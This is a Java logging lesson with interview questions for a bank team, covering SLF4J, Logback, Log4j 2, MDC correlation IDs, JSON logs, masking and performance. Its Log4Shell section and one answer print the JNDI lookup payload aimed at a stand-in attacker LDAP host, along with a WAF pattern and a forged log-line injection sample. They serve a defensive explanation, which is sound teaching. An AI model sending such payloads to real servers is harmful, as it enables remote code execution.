

Logging looks trivial until production: the line you need is missing at 03:00, the one you have contains a card number, the service is slow because of the logger, and a library from 2021 turned a log message into remote code execution. Interviews ask: *what is SLF4J and how is it different from Logback or Log4j 2, what are the levels, why use `{}` placeholders, what is MDC and why does it disappear in a thread pool, how do you log in containers, what must you never log, and what exactly was Log4Shell?* This lesson builds on [observability in Spring Boot](lesson:spring-observability#health), [dependency management](lesson:dependency-management#log4shell) and [Java exceptions](lesson:java-exceptions).

> **One sentence to remember:** *Code against the SLF4J facade, let one implementation (Logback or Log4j 2) write the events, log structured one-line JSON events to the console in containers, carry a correlation ID in the MDC, keep secrets and personal data out, and keep the logging library patched.*

## Facade and implementation {#facade}

Java has several logging libraries, so applications use a **facade** (an API) and plug **one implementation** underneath. Libraries you depend on log through the facade, and the application chooses where the output goes.



| Piece | Role |
| --- | --- |
| **SLF4J** (`slf4j-api`) | the facade: `Logger`, `LoggerFactory`, levels, `{}` placeholders, MDC |
| **Logback** | the native SLF4J implementation and the **Spring Boot default** |
| **Log4j 2** | an independent logging framework with its own API (`log4j-api`) and implementation (`log4j-core`) |
| `java.util.logging` (JUL) | the JDK's built-in logger, rarely chosen for applications |
| **Bridges** | `jul-to-slf4j`, `jcl-over-slf4j`, `log4j-over-slf4j`, `log4j-to-slf4j`: route other APIs into SLF4J so everything reaches one output |

Rules that avoid the classic problems:

- **Exactly one implementation** on the classpath. Two (Logback and `log4j-slf4j2-impl`) give "Class path contains multiple SLF4J providers" and one of them is picked at random.
- **Never a bridge and its opposite together** (`log4j-over-slf4j` with `slf4j-log4j12`): events loop forever.
- Libraries depend on `slf4j-api` only, never on an implementation.

Spring Boot's `spring-boot-starter-logging` brings Logback plus the `jul-to-slf4j` and `log4j-to-slf4j` bridges, so JUL and the Log4j 2 API in third-party code end up in Logback. To use **Log4j 2** instead, exclude `spring-boot-starter-logging` and add `spring-boot-starter-log4j2`.

Try it in the lab: [Facade, implementation and bridges](lab:log-facade-bindings).

## Levels and the logger hierarchy {#levels}

| Level | Use for |
| --- | --- |
| `TRACE` | very detailed flow, normally off |
| `DEBUG` | developer diagnostics: values, decisions; off in production |
| `INFO` | business and lifecycle events worth keeping: *payment accepted*, *service started* |
| `WARN` | something unexpected that the system handled: a retry, a fallback, a rejected input |
| `ERROR` | an operation failed and needs attention |

Log4j 2 adds `FATAL` (SLF4J has none: use `ERROR`). A message is written only when its level is **at or above** the logger's **effective level**.

Loggers form a **hierarchy by name**, like packages: `com.bank.payments.TransferService` inherits from `com.bank.payments`, then `com.bank`, then `ROOT`. A logger without a level inherits the nearest ancestor's level, and by **additivity** its events also go to the ancestors' appenders.

```yaml
logging:
  level:
    root: INFO
    com.bank.payments: DEBUG          # this package and everything below it
    org.hibernate.SQL: DEBUG          # show the SQL
    org.springframework.web: WARN
```

Practical rules: one `private static final Logger log = LoggerFactory.getLogger(Xyz.class)` per class (Lombok's `@Slf4j` generates it), so the logger name tells you the source; use `ERROR` only when someone must act; and do not log an exception **and** rethrow it, because it is then logged once per layer.

## Writing good log statements {#statements}

```java
log.info("Transfer {} accepted: {} {}", transfer.id(), amount, currency);   // placeholders
log.warn("Card service slow, using cached limits for card {}", cardId);
log.error("Transfer {} failed", transfer.id(), exception);                   // the exception goes LAST
```

- **Placeholders `{}`**, not concatenation. `"a" + b` builds the string even when the level is off; `{}` formats only if the event is enabled. (The arguments are still evaluated, so an expensive call such as `log.debug("x {}", expensive())` still runs.)
- For an expensive argument use a **guard** (`if (log.isDebugEnabled())`), the SLF4J 2 **fluent API** (`log.atDebug().addArgument(() -> expensive()).log("x {}")`) or a Log4j 2 supplier (`log.debug("x {}", () -> expensive())`).
- **The exception is the last argument**, without a placeholder, so the stack trace is logged. `log.error(e.getMessage())` loses it, and `e.printStackTrace()` bypasses the logging system altogether.
- Add the **identifier and the outcome**, not prose: `Transfer T-123 accepted`, not `It worked`.
- The SLF4J 2 fluent API also adds **key-value pairs** that a JSON layout writes as fields: `log.atInfo().addKeyValue("transferId", id).log("accepted")`.

## Inside Logback {#logback}

Logback's model: a **Logger** creates events, **Appenders** write them (console, file, rolling file, socket), and an **Encoder** (or Layout) turns an event into text or JSON. **Filters** and the logger hierarchy decide what is kept.

```xml
<!-- src/main/resources/logback-spring.xml -->
<configuration>
  <springProperty scope="context" name="app" source="spring.application.name"/>

  <appender name="CONSOLE" class="ch.qos.logback.core.ConsoleAppender">
    <encoder>
      <pattern>%d{ISO8601} %-5level [%thread] [%X{correlationId}] %logger{36} - %msg%n</pattern>
    </encoder>
  </appender>

  <appender name="FILE" class="ch.qos.logback.core.rolling.RollingFileAppender">
    <file>logs/${app}.log</file>
    <rollingPolicy class="ch.qos.logback.core.rolling.SizeAndTimeBasedRollingPolicy">
      <fileNamePattern>logs/${app}.%d{yyyy-MM-dd}.%i.log.gz</fileNamePattern>
      <maxFileSize>100MB</maxFileSize>
      <maxHistory>14</maxHistory>
      <totalSizeCap>5GB</totalSizeCap>
    </rollingPolicy>
    <encoder><pattern>%d %-5level [%X{correlationId}] %logger - %msg%n</pattern></encoder>
  </appender>

  <appender name="ASYNC" class="ch.qos.logback.classic.AsyncAppender">
    <queueSize>8192</queueSize>
    <discardingThreshold>0</discardingThreshold>   <!-- 0: never drop events when the queue is full -->
    <neverBlock>false</neverBlock>
    <appender-ref ref="FILE"/>
  </appender>

  <springProfile name="prod"><root level="INFO"><appender-ref ref="ASYNC"/></root></springProfile>
  <springProfile name="!prod"><root level="DEBUG"><appender-ref ref="CONSOLE"/></root></springProfile>
</configuration>
```

- `logback-spring.xml` (not `logback.xml`) lets Spring Boot supply `<springProfile>` and `<springProperty>` and start the configuration at the right time.
- **Rolling** keeps files from filling the disk: roll by time and size, compress, keep `maxHistory` days, and cap the **total size**.
- A **pattern** such as `%d %-5level [%thread] %logger{36} - %msg%n` is cheap; `%L` (line), `%M` (method) and `%C` (caller class) need a **stack walk per event** and are slow, so avoid them in production.

## Inside Log4j 2 {#log4j2}

Log4j 2 has a **LoggerContext** and a **Configuration** with **Loggers**, **Appenders**, **Layouts** and **Filters**, read from `log4j2.xml` (or YAML, JSON, properties) and **reloadable at run time** (`monitorInterval`).

```xml
<Configuration status="WARN" monitorInterval="30">
  <Appenders>
    <Console name="Console"><JsonTemplateLayout eventTemplateUri="classpath:EcsLayout.json"/></Console>
    <RollingFile name="File" fileName="logs/app.log" filePattern="logs/app-%d{yyyy-MM-dd}-%i.log.gz">
      <PatternLayout pattern="%d %-5p [%X{correlationId}] %c{1.} - %m%n"/>
      <Policies><TimeBasedTriggeringPolicy/><SizeBasedTriggeringPolicy size="100MB"/></Policies>
      <DefaultRolloverStrategy max="14"/>
    </RollingFile>
  </Appenders>
  <Loggers>
    <Root level="info"><AppenderRef ref="Console"/></Root>
    <Logger name="com.bank.payments" level="debug" additivity="false"><AppenderRef ref="File"/></Logger>
  </Loggers>
</Configuration>
```

What sets it apart:

- **Async loggers** built on the **LMAX Disruptor** (a lock-free ring buffer): add `com.lmax:disruptor` and set `-Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector` to make **all loggers asynchronous**, with very high throughput and low latency.
- **Garbage-free** logging for steady-state paths, which keeps the garbage collector quiet in latency-sensitive services.
- **Lookups** (`${env:HOST}`, `${ctx:userId}`, `${sys:...}`), a powerful feature that was also the root of Log4Shell ([below](#log4shell)).

### Logback or Log4j 2? {#compare}

| | Logback | Log4j 2 |
| --- | --- | --- |
| Relation to SLF4J | native implementation | independent API, adapter to SLF4J |
| Spring Boot | **default** | supported by a starter |
| Async | `AsyncAppender` (a blocking queue) | async loggers with a ring buffer, much faster under load |
| Reload config | yes (`scan`) | yes (`monitorInterval`) |
| Garbage-free | no | yes, in many paths |
| JSON | logstash-logback-encoder, Boot structured logging | `JsonTemplateLayout` |
| Typical choice | most Spring Boot services | very high log volume or existing Log4j 2 estate |

For most services the answer is "keep the Boot default (Logback)" and the reason is **simplicity and the smaller exposure**: the Log4Shell bug lived in `log4j-core`, which a default Spring Boot application did not even contain.

## Spring Boot configuration {#boot}

```yaml
logging:
  level:
    root: INFO
    com.bank: INFO
  file:
    name: logs/payments.log          # prefer stdout in containers
  logback:
    rollingpolicy:
      max-file-size: 100MB
      max-history: 14
  pattern:
    console: "%d{ISO8601} %-5level [%X{traceId:-}] %logger{36} - %msg%n"
  structured:
    format:
      console: ecs                   # Boot 3.4+: also logstash and gelf
  group:
    persistence: org.hibernate.SQL, org.hibernate.orm.jdbc.bind
```

- **Change a level at run time** without a restart through Actuator: `POST /actuator/loggers/com.bank.payments` with `{"configuredLevel":"DEBUG"}`. Reset it by posting `null`. Protect the endpoint: it is a switch for production diagnostics.
- Boot installs the **JUL bridge**, so libraries that use `java.util.logging` also appear in your output.
- Add `logging.config=classpath:logback-spring.xml` only when you move the file; otherwise Boot finds it.

## MDC and correlation IDs {#mdc}

The **MDC** (Mapped Diagnostic Context) is a per-thread map of key-values that the layout prints with every event: `%X{correlationId}`. Set it **once at the edge** and every line of that request carries it, so a search for one ID returns the whole story across classes, and, when it is propagated, across services.

```java
@Component
class CorrelationFilter extends OncePerRequestFilter {
    @Override
    protected void doFilterInternal(HttpServletRequest req, HttpServletResponse res, FilterChain chain) throws ServletException, IOException {
        String id = Optional.ofNullable(req.getHeader("X-Correlation-Id")).orElseGet(() -> UUID.randomUUID().toString());
        MDC.put("correlationId", id);
        res.setHeader("X-Correlation-Id", id);
        try {
            chain.doFilter(req, res);
        } finally {
            MDC.clear();                 // threads are reused: never leave data behind
        }
    }
}
```

**The MDC is a `ThreadLocal`.** That causes the two classic bugs:

- **Lost context:** work handed to another thread (`@Async`, an executor, `CompletableFuture.supplyAsync`, a scheduled task) starts with an **empty** MDC, so those lines have no correlation ID. Copy it with a `TaskDecorator` (`MDC.getCopyOfContextMap()` into the task) or use **Micrometer context propagation**. In Reactor, use the Reactor `Context` and enable automatic context propagation.
- **Leaked context:** a pooled thread that is not cleared in `finally` keeps the **previous request's** ID and logs the next request's lines with it.

With **Micrometer Tracing** (see [observability](lesson:spring-observability)) `traceId` and `spanId` are put in the MDC for you and propagated between services in the `traceparent` header, so a log line links to its trace.

Try it in the lab: [The correlation ID that disappears](lab:log-mdc-async).

## Structured logging {#structured}

Text logs are for people; **JSON logs are for machines**. One event is **one line of JSON** with fields, so the platform can index and query them (`level=ERROR AND correlationId=...`):

```json
{"@timestamp":"2026-11-26T03:12:04.123Z","level":"ERROR","logger":"com.bank.payments.TransferService",
 "message":"Transfer T-123 failed","correlationId":"9f2c...","transferId":"T-123",
 "error.type":"java.net.SocketTimeoutException","error.stack_trace":"java.net.SocketTimeoutException: ...\n\tat ..."}
```

Spring Boot 3.4+ has it built in (`logging.structured.format.console=ecs`); before that use `logstash-logback-encoder` or Log4j 2's `JsonTemplateLayout`. The stack trace sits **inside** the event, so a multi-line trace never splits into separate lines in the collector.

In **containers and Kubernetes** write to **stdout** in JSON, not to files: the runtime captures it, a collector (Fluent Bit, Vector, the CloudWatch agent) ships it, and the pod needs no disk or rotation. Add `service`, `version` and `environment` fields so one query spans all instances ([Kubernetes](lesson:kubernetes)).

## What to log, and what never to log {#policy}

Never log: **passwords, tokens, API keys, session IDs, full card numbers (PAN), CVV, PINs**, national ID numbers, or whole request bodies that may contain them. Log identifiers (`accountId`, `transferId`), not the personal data behind them. Reasons: logs are copied to many systems, kept for months and read by many people, and PCI DSS and personal-data law (such as Singapore's PDPA) apply to them like any data store.

- **Mask at the source:** a custom masking converter in the layout, `toString()` that omits sensitive fields, and DTOs that exclude them. Do not depend on a regex over the final text alone.
- **Log injection:** user input containing line breaks (`\r\n`) can forge extra log lines (`... ok\nINFO Admin login succeeded`). JSON layouts escape this; for text layouts sanitise or encode values you log.
- **Audit logs are not application logs:** a bank keeps a separate **audit trail** (who did what, when, from where) on its own logger (`AUDIT`, `additivity=false`) to a protected, append-only store with its own retention, and does not rely on a rolling debug log.
- **Level discipline:** `INFO` should be quiet enough to read, `DEBUG` is off in production and switched on temporarily, per package, through Actuator.

## Performance {#performance}

- **Synchronous logging is I/O in the request thread.** A slow disk or a blocked stdout pipe slows every request. An **async appender** (Logback) or **async loggers** (Log4j 2) hand events to a background thread through a queue.
- An async queue needs a **policy for when it fills**: block (safe, can stall the application), or discard (keeps latency, **loses events**). Logback's `AsyncAppender` discards `TRACE`, `DEBUG` and `INFO` when the queue is 80 percent full unless `discardingThreshold` is `0`; set `neverBlock` deliberately. Async logs can also **lose the last events on a crash**.
- **Volume is cost:** a `DEBUG` line in a hot loop, or logging every request body, fills disks and the log platform bill, and drowns the line you need. Sample or aggregate high-frequency events.
- **Stack traces and caller data are expensive.** Log a stack trace once, at the layer that handles the error.

Try it in the lab: [Slow disk, async appender](lab:log-async-appender).

## Log4Shell {#log4shell}

**CVE-2021-44228** (December 2021, CVSS 10.0) affected **Log4j 2 versions 2.0-beta9 to 2.14.1**. Log4j 2 performed **lookups** inside the **message text** it was asked to log, and one lookup was `${jndi:...}`, which makes a **JNDI** call to a server the attacker names. The result was **remote code execution** from a log line.

1. The attacker sends `${jndi:ldap://evil.example/a}` in anything the application logs: a header (`User-Agent`), a username, a form field.
2. The application logs it, for example `log.info("Login failed for {}", username)`.
3. Log4j sees `${jndi:...}`, contacts the attacker's LDAP server, and loads the **class** it returns.
4. The class runs inside the application's JVM.

Why it was so bad: it needed **no authentication**, the trigger was a **string any user controls**, log4j-core was everywhere (often as a transitive dependency or inside a vendor's fat jar), and teams could not tell quickly where it was.

The fixes, in order of the releases: **2.15.0** restricted JNDI and disabled message lookups by default, **2.16.0** removed message lookups and disabled JNDI, **2.17.0** fixed a denial of service from recursive lookups (CVE-2021-45105), and **2.17.1** fixed a further issue with the JDBC appender (CVE-2021-44832). So the target is **2.17.1 or later** (2.12.4 for Java 7, 2.3.2 for Java 6). Temporary mitigations: `-Dlog4j2.formatMsgNoLookups=true` (2.10 and later), or delete the `JndiLookup.class` from the jar, plus egress filtering so servers cannot call out to the internet, and a WAF rule for `${jndi:`.

The durable lessons: keep an **SBOM** and scan the dependency tree (see [dependency management](lesson:dependency-management#log4shell)), **do not put data you do not control into places that interpret it**, minimise the features you enable, restrict **outbound** traffic from servers, and be able to **patch every service within hours**.

Try it in the lab: [A log line that runs code](lab:log4shell-jndi).

## Testing log output {#testing}

- Spring Boot's **`OutputCaptureExtension`** (`CapturedOutput`) checks what was written for the few lines that matter (a security event or an audit entry).
- With Logback, attach a **`ListAppender`** to the logger and assert on the `ILoggingEvent` list (level, message, MDC).
- Test that **sensitive values are masked**, and that MDC is set and cleared by the filter. Do not assert on every `INFO` line: that freezes wording and makes refactoring painful.

## A routine for a bank team {#routine}

1. **SLF4J API in code, one implementation** (Logback by default); bridges for the others; exclusions checked in the dependency tree.
2. **JSON to stdout** in containers, with service, version and environment fields.
3. **A correlation or trace ID in the MDC** at the edge, cleared in `finally`, propagated across threads and services.
4. **Placeholders, last-argument exceptions**, one log per failure.
5. **Masking and a "never log" list** enforced in code review and in tests; audit events on a separate logger and store.
6. **Async logging with a deliberate full-queue policy**; no caller-data patterns in production.
7. **Runtime level changes** through a protected Actuator endpoint, `DEBUG` only temporarily.
8. **Patched logging libraries**, an SBOM, and a scan in the pipeline.

## Cheat sheet {#cheatsheet}

| Need | Use |
| --- | --- |
| Logger | `LoggerFactory.getLogger(X.class)` or Lombok `@Slf4j` |
| Message | `log.info("Transfer {} accepted", id)` |
| Exception | `log.error("failed {}", id, ex)` (last, no placeholder) |
| Expensive argument | `isDebugEnabled`, fluent API or a supplier |
| Boot default | SLF4J + Logback (`spring-boot-starter-logging`) |
| Switch to Log4j 2 | exclude starter-logging, add `spring-boot-starter-log4j2` |
| Change level live | `POST /actuator/loggers/<name>` |
| Correlation | `MDC.put` in a filter, `%X{id}`, `MDC.clear()` in `finally` |
| JSON | `logging.structured.format.console=ecs` (Boot 3.4+) |
| Rolling | `SizeAndTimeBasedRollingPolicy`, `maxHistory`, `totalSizeCap` |
| Async | Logback `AsyncAppender`, Log4j 2 async loggers (Disruptor) |
| Log4Shell fix | Log4j 2 **2.17.1 or later** |

## Interview questions {#questions}

### [basic] What is SLF4J and how does it differ from Logback or Log4j 2? {#slf4j-q}

SLF4J is a **facade**: an API (`Logger`, placeholders, MDC) with no output of its own. Logback and Log4j 2 are **implementations** that actually format and write events. Application and library code use the SLF4J API, and one implementation is chosen at deployment, so the choice can change without touching the code.

### [basic] What are the logging levels and what should each be used for? {#levels-q}

`TRACE` and `DEBUG` for diagnostics (off in production), `INFO` for business and lifecycle events, `WARN` for handled surprises such as a retry or fallback, and `ERROR` for failures that need action. Log4j 2 adds `FATAL`. An event is written only if its level is at or above the logger's effective level.

### [basic] Why use `{}` placeholders instead of string concatenation? {#placeholders-q}

The message is built only if the level is enabled, so a disabled `debug` costs almost nothing, while concatenation builds the string every time. Remember that the arguments are still evaluated, so wrap an expensive one in a guard, a supplier or the fluent API.

### [basic] How do you log an exception correctly? {#exception-q}

Pass it as the **last argument**, with no placeholder: `log.error("Transfer {} failed", id, ex)`. The stack trace is then logged. Do not use `e.printStackTrace()` or log only `e.getMessage()`, and do not log and rethrow, which logs the same failure once per layer.

### [intermediate] What is the logger hierarchy and how is the effective level decided? {#hierarchy-q}

Loggers are named like packages, so `com.bank.payments.TransferService` is a child of `com.bank.payments`, `com.bank` and the root. A logger with no level inherits the nearest ancestor that has one, so setting `com.bank.payments` to `DEBUG` affects everything under it. By additivity its events also go to the appenders of its ancestors unless `additivity` is false.

### [intermediate] You get "multiple SLF4J providers" or logs that vanish after adding a dependency. What happened? {#conflict-q}

Two implementations are on the classpath (for example Logback and `log4j-slf4j2-impl`), or a bridge and its opposite form a loop. Run the dependency tree (`mvn dependency:tree`, `gradle dependencies`) to see which library brought the second one, and exclude it so exactly one implementation remains. Libraries should depend on `slf4j-api` only.

### [intermediate] How do you switch a Spring Boot application from Logback to Log4j 2? {#switch-q}

Exclude `spring-boot-starter-logging` from the starters and add `spring-boot-starter-log4j2`, then provide `log4j2-spring.xml` instead of `logback-spring.xml`. The code does not change because it uses SLF4J. Keep `log4j-core` at a patched version.

### [intermediate] What is MDC and why does it lose data in a thread pool? {#mdc-q}

The Mapped Diagnostic Context is a per-thread map whose entries the layout prints on each line (`%X{correlationId}`), set once in a filter so a request's lines can be correlated. It is a `ThreadLocal`, so work handed to another thread starts with an empty MDC, and a pooled thread that is not cleared keeps the previous request's data. Copy the context with a `TaskDecorator` or context propagation, and always clear it in `finally`.

### [intermediate] Why use structured (JSON) logging, and how do you do it in Spring Boot? {#json-q}

One event per line of JSON with fields lets the platform index and query logs (by level, correlation ID, transfer ID) and keeps a stack trace inside one event. Boot 3.4 has `logging.structured.format.console=ecs`; earlier versions use `logstash-logback-encoder` or Log4j 2's `JsonTemplateLayout`. In containers write it to stdout and let a collector ship it.

### [intermediate] Why log to stdout in Kubernetes instead of a file? {#stdout-q}

The container runtime captures stdout and stderr, a node-level collector ships them, and the pod needs no writable disk, rotation or cleanup. Files inside a container disappear with it and need a sidecar to read. Use JSON so multi-line stack traces stay in one event.

### [intermediate] How do you change a log level in production without redeploying? {#runtime-q}

Through the Actuator `loggers` endpoint: `POST /actuator/loggers/com.bank.payments` with `{"configuredLevel":"DEBUG"}`, and `null` to reset. Limit it to one package, set it temporarily and secure the endpoint, because it exposes diagnostics and can flood the logs.

### [intermediate] What must you never log in a bank, and how do you enforce it? {#never-q}

Passwords, tokens and keys, full card numbers, CVV and PINs, national IDs, and whole request bodies that may contain them; log identifiers instead. Enforce it with masking in the layout, `toString()` and DTOs that omit sensitive fields, code review rules, tests that assert masking, and scans of the log platform. Audit events go to a separate, protected, append-only store.

### [deep] What is log injection and how do you prevent it? {#injection-q}

Attacker-controlled input containing line breaks or control characters forges extra log lines (`\nINFO Admin login succeeded`), hiding or faking events and breaking parsers. A JSON layout escapes them; for text layouts sanitise or encode logged user input. It is one reason to prefer structured logs.

### [deep] How can logging slow an application down, and how do you reduce it? {#perf-q}

Synchronous appenders do I/O in the request thread, so a slow disk or blocked pipe slows every request; string building and `toString()` run even for disabled levels; caller-data patterns (`%L`, `%M`) walk the stack; stack traces are expensive; and volume itself is cost. Use async appenders or loggers with a deliberate full-queue policy, placeholders and guards, avoid caller data, log a stack trace once, and sample high-frequency events.

### [deep] What is the trade-off of asynchronous logging? {#async-q}

It takes logging off the request thread, but the queue is bounded: when full it must **block** (the application stalls) or **discard** (events are lost; Logback discards `TRACE` to `INFO` at 80 percent full by default). Events still in the queue can be lost in a crash. Choose the policy deliberately: for an audit trail do not drop, for debug noise dropping is fine.

### [deep] What was Log4Shell and how did it work? {#log4shell-q}

CVE-2021-44228, a CVSS 10 flaw in Log4j 2 (2.0-beta9 to 2.14.1). Log4j performed lookups inside logged message text, and `${jndi:ldap://attacker/a}` made it query the attacker's server through JNDI and load the returned class, giving remote code execution from any logged string such as a header or username, with no authentication. Fixed by upgrading (2.17.1 or later), with temporary mitigations such as `log4j2.formatMsgNoLookups`, removing `JndiLookup.class`, and blocking outbound traffic.

### [deep] Why was a default Spring Boot application not vulnerable to Log4Shell, and what should you still check? {#boot-log4shell-q}

The default is Logback, and the `log4j-to-slf4j` bridge contains only the Log4j API, not `log4j-core` where the bug was. Applications were vulnerable if they used `spring-boot-starter-log4j2`, or if a dependency (often a vendor jar) bundled `log4j-core`. Check the full dependency tree and every fat jar and container image, keep an SBOM, and scan in CI.

### [deep] How would you respond within hours if a new critical logging CVE is announced? {#response-q}

Query the SBOMs and registry scans to list every affected service and version, apply the vendor's mitigation flag or remove the vulnerable class as a stopgap, block outbound traffic from servers, add a WAF rule, then upgrade through a forced constraint or BOM in each build and redeploy by priority (internet facing first), verifying by scan. Afterwards review why detection and patching took as long as they did.

### [coding] Add a correlation ID filter and propagate it to `@Async` work. {#coding-mdc}

```java
@Configuration
@EnableAsync
class AsyncConfig implements AsyncConfigurer {
    @Override
    public Executor getAsyncExecutor() {
        ThreadPoolTaskExecutor executor = new ThreadPoolTaskExecutor();
        executor.setCorePoolSize(8);
        executor.setMaxPoolSize(16);
        executor.setQueueCapacity(200);
        executor.setTaskDecorator(task -> {
            Map<String, String> context = MDC.getCopyOfContextMap();     // captured on the caller's thread
            return () -> {
                Map<String, String> previous = MDC.getCopyOfContextMap();
                try {
                    if (context != null) MDC.setContextMap(context); else MDC.clear();
                    task.run();
                } finally {
                    if (previous != null) MDC.setContextMap(previous); else MDC.clear();
                }
            };
        });
        executor.initialize();
        return executor;
    }
}
```

Together with the `CorrelationFilter` above that sets the ID and clears it in `finally`. Explain: the decorator runs when the task is submitted, so it captures the caller's MDC, restores it on the pool thread for the duration of the task and then puts back whatever the thread had, so a pooled thread never leaks one request's ID into the next.

### [coding] Configure Logback with rolling files, an async appender that never drops audit events, and a separate audit logger. {#coding-logback}

```xml
<configuration>
  <appender name="APP" class="ch.qos.logback.core.rolling.RollingFileAppender">
    <file>logs/app.log</file>
    <rollingPolicy class="ch.qos.logback.core.rolling.SizeAndTimeBasedRollingPolicy">
      <fileNamePattern>logs/app.%d{yyyy-MM-dd}.%i.log.gz</fileNamePattern>
      <maxFileSize>100MB</maxFileSize><maxHistory>14</maxHistory><totalSizeCap>5GB</totalSizeCap>
    </rollingPolicy>
    <encoder><pattern>%d %-5level [%X{correlationId}] %logger{36} - %msg%n</pattern></encoder>
  </appender>

  <appender name="AUDIT_FILE" class="ch.qos.logback.core.rolling.RollingFileAppender">
    <file>logs/audit.log</file>
    <rollingPolicy class="ch.qos.logback.core.rolling.TimeBasedRollingPolicy">
      <fileNamePattern>logs/audit.%d{yyyy-MM-dd}.log.gz</fileNamePattern><maxHistory>2555</maxHistory>
    </rollingPolicy>
    <encoder><pattern>%d %X{correlationId} %msg%n</pattern></encoder>
  </appender>

  <appender name="ASYNC_AUDIT" class="ch.qos.logback.classic.AsyncAppender">
    <queueSize>4096</queueSize><discardingThreshold>0</discardingThreshold><neverBlock>false</neverBlock>
    <appender-ref ref="AUDIT_FILE"/>
  </appender>

  <logger name="AUDIT" level="INFO" additivity="false"><appender-ref ref="ASYNC_AUDIT"/></logger>
  <root level="INFO"><appender-ref ref="APP"/></root>
</configuration>
```

Explain: application logs roll by size and day with a total cap; the `AUDIT` logger has `additivity="false"` so audit events never mix into the application log, keeps files for years (the retention comes from the regulator's rules, so `2555` days is only an example), and uses an async appender with `discardingThreshold=0` and `neverBlock=false` so audit events are **never dropped**, at the cost of blocking the caller if the queue ever fills.
